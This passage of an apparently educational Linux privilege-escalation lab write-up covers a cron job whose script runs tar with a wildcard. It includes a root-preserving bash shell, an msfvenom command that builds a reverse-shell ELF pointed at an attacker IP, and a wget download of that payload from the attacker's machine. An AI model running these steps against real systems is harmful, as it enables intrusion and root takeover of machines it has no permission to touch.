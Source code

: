     ```bash
    user@debian:~$ /tmp/rootbash -p
    rootbash-4.1# 
    ```

#### What is the value of the PATH variable in /etc/crontab?
> `/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

## Cron Jobs - Wildcards
- View the contents of the other cron job script:

    ```bash
    user@debian:~$ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *
    ```

    Note that the tar command is being run with a wildcard (*) in your home directory. Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

- Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

    ```bash
    $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.25.205 LPORT=9999 -f elf -o shell.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 74 bytes
    Final size of elf file: 194 bytes
    Saved as: shell.elf
    ```

- Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

    ```bash
    user@debian:~$ wget http://10.11.25.205:8080/shell.elf
    --2021-01-15 09:33:37--  http://10.11.25.205:8080/shell.elf
    Connecting to 10.11.25.205:8080... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 194 [application/octet-stream]
    Saving to: “shell.elf”

    100%[====================================================================>] 194         --.-K/s   in 0s      

    2021-01-15 09:33:37 (42.8 MB/s) - “shell.elf” saved [194/194]

    user@debian:~$ chmod +x /home/user/shell.elf
    ```
